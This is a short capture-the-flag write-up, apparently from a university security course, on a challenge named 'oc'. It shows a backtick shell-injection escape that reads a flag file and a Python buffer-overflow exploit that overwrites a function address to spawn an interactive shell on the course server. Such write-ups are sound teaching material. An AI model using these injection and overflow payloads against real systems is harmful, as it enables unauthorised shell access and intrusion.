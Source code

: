 # Write up: oc (1-3)

## ymli (0016045)


### nc to it, try to escape from the argument setting script

```sh
nc secprog.cs.nctu.edu.tw 10002
`sh`
cat /home/oc/flag 1>&2
```

#### fixed by ddaa


### read the assembly code, decompile that with IDA and snowman

- try find an overflow?
- memcpy
![Imgur](http://i.imgur.com/0vPoy8b.png)

### the behavior of the program

1. read the arguments
2. need 7 args
3. jump to the strange function (?)
4. anti-debugger features (don't worry just use gdb and bypass the ptrace check)
5. memcpy an address of a function call
6. the last arg can be used to overflow that

### write the exploit script [0]

- connect to the server
- overflow the function call address to the line that invokes a shell (0x08048731)
- send the payload via the 7th argument

## Appendix

### [0] expolit.py

```python
#!/usr/bin/env python

import struct
from socket import *
import telnetlib

ip = 'secprog.cs.nctu.edu.tw'
port = 10002

soc = socket(AF_INET, SOCK_STREAM)
soc.connect((ip,port))
data = soc.recv(1024)
print(data.decode())

payload = b"a a a a a a bbbbbbbbbbbbbbbb\x31\x87\x04\x08\n"
soc.send(payload)

# get interactive shell
t = telnetlib.Telnet()
t.sock = soc
t.interact()
```
